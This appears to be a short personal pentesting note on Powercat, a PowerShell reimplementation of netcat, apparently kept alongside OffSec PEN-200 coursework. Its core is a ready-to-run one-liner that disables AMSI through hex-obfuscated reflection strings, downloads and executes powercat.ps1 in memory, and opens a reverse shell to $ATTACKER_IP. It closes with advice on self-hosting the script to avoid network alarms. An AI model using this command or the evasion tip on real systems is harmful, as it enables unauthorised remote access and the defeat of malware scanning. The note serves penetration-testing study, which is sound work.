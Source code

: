 # Using Powercat

**author**:: Nathan Acks  
**date**:: 2022-08-26

Powercat is a PowerShell-native reimplementation of netcat. Powercat can be installed on Kali Linux using `sudo apt install powercat`.

* [besimorhino / powercat](https://github.com/besimorhino/powercat)
* [Using PowerShell](powershell.md)
* [Using "netcat"](netcat.md)

## One Line Reverse Shell

This disables AMSI, downloads Powercat into memory and invokes the module and then fires up a reverse shell.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe
```

It's probably advisable to use your own server to host Powercat in order to make tripping network alarms less likely.

* [2022-08-26 - OffSec Live: PEN-200](../log/2022-08-26-offsec-live-pen-200.md)

